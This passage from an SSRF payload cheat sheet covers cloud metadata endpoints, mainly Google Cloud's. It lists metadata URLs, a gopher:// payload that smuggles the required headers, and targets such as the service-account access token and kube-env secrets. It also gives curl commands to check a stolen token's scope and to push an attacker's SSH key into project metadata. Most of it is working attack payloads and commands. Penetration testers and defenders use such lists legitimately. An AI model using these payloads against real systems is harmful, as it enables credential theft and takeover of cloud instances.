 http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
Docs: https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next

SSRF URL for Google Cloud
:warning: Google is shutting down support for usage of the v1 metadata service on January 15.

Requires the header “Metadata-Flavor: Google” or “X-Google-Metadata-Request: True”

http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
Google allows recursive pulls

http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
Required headers can be set using a gopher SSRF with the following technique

gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
Interesting files to pull out:

SSH Public Key : http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
Get Access Token : http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
Kubernetes Key : http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json
Add an SSH key
Extract the token

http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
Check the scope of the token

$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
Now push the SSH key.

curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
SSRF URL for Digital Ocean
Documentation available at https://developers.digitalocean.com/documentation/metadata/
